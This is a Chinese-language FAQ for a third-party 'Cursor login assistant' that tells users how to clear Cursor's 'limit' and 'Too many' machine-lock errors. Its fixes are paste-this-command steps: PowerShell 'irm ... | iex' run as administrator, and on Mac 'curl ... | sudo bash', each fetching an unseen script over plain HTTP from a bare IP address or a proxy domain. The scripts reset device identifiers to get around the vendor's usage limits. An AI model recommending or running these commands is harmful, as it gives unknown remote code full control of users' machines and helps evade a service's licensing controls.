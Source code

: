 常见问题错误对照
【以下问题中，95%的情况是常规问题，但是网络或模型等问题，通常与登录助手无关。】
1.Cursor显示limit怎么办？
[图片]
2.显示锁机器码怎么办？也就是Cursor的Too many报错
[图片]

- Windows系统：
1、空点激活设备按钮，也就是不输入激活码，点击激活设备按钮。
2、然后点击刷新cursor按钮。
3、新建对话。
4、没有好的话，需要执行下面的命令。
- Mac系统：需要在终端执行一下命令，具体看下边。
- 如果还是这个问题，就需要手动执行一下程序了，手动执行操作如下。

Windows
 如果出现“limit”提示，点击“刷新 Cursor”仍无法使用：
 详细步骤：
1. 点击 “开始” 菜单，搜索 “PowerShell”。
2. 右键点击 “Windows PowerShell”，选择 “以管理员身份运行”
3. 将以下命令完整复制（点击复制按钮即可）
4. 执行完了之后，重新执行Cursor登录助手，点击刷刷新cursor按钮。
执行完之后。选择0或者1，都可以
0是不禁用更新
1是禁用更新
推荐禁用更新，新版本问题太多。老版本流畅

先试powershell命令，执行完之后，点击刷新cursor按钮。
100%成功率，如果成功不了的话，终端执行命令截图给客服。
irm https://aizaozao.com/accelerate.php/https://raw.githubusercontent.com/yuaotian/go-cursor-help/refs/heads/master/scripts/run/cursor_win_id_modifier.ps1 | iex
下面的不用看了哦。管理用来记录
irm http://82.157.20.83:8080/win.ps1 | iex
Mac
 如果出现“limit”提示，或者"Too many"提示，点击“刷新 Cursor”仍无法使用：
 请根据下面的操作进行
1. 打开终端。（根目录即可）
2. 将以下命令完整复制（点击复制按钮即可）
3.  执行完了之后，重新执行Cursor登录助手，点击刷刷新cursor按钮。

先试终端命令，
100%成功率，如果成功不了的话，终端执行命令截图给客服。
curl -fsSL http://82.157.20.83:8080/go.sh | sudo bash
下面的不用看了哦。管理用来记录
1、复制到浏览器下载。
http://82.157.20.83:8080/go.sh
2、打开终端，切换到go.sh文件路径，执行以下命令
chmod +x go.sh
sudo ./go.sh


3.Cursor历史版本下载？
支持从 0.46 至 最新的版本的上一个版本的所有版本（新版本可以使用，但是有可能不稳定）。
强烈建议下载0.46.2版本，最新版本为cursor的内测版本，有阉割
不过可以可以不接受建议，最新版也行。

